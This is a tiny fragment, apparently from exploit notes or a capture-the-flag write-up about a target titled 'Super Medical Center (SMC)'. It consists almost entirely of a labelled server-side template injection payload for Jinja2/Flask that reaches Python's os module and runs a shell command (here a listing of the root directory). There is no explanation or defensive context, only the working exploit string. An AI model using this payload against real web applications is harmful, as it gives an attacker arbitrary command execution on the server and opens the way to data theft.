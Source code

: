 # Super Medical Center (SMC)

Payload:
{{request.application.__globals__.__builtins__.__import__('os').popen('ls /').read()}}
